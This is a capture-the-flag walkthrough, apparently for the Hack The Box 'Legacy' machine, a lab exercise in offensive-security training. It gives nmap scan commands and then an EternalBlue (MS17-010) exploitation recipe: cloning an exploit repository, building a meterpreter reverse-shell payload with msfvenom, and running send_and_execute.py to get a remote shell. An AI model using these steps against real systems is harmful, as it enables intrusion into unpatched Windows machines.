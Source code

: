 Legacy without Metasploit:

![Legacy](https://user-images.githubusercontent.com/55708909/91388528-2e9b1100-e855-11ea-9e19-33536c5bab8e.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.4

![Legacy_nmap](https://user-images.githubusercontent.com/55708909/91389091-3f985200-e856-11ea-84e5-cd4c6331d2bc.png)
 As you can see that there are two ports open :
 1-Port 139
 2-Port 445

Therefore we will enumerate these ports.


I tried using basic tools but nothing seems to work so i run a vulnerability scan using nmap

![Legacy_vuln](https://user-images.githubusercontent.com/55708909/91391388-46739480-e857-11ea-95d0-1d3943d45251.png)

Nmap found us two vulnerability which can be exploited. 

1-MS08-067


2-MS17-010 (Eternal Blue)

I will be exploiting eternal blue using custom exploits from this git repo 

git clone https://github.com/helviojunior/MS17-010.git

cd MS17-010

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

open a netcat session on port 4444

Run these command : python send_and_execute.py 10.10.10.4 shell.exe and you will get a reverse shell on port 4444

![Legacy_shell](https://user-images.githubusercontent.com/55708909/91396814-f39adc80-e858-11ea-8a21-c25fa68f1066.png)







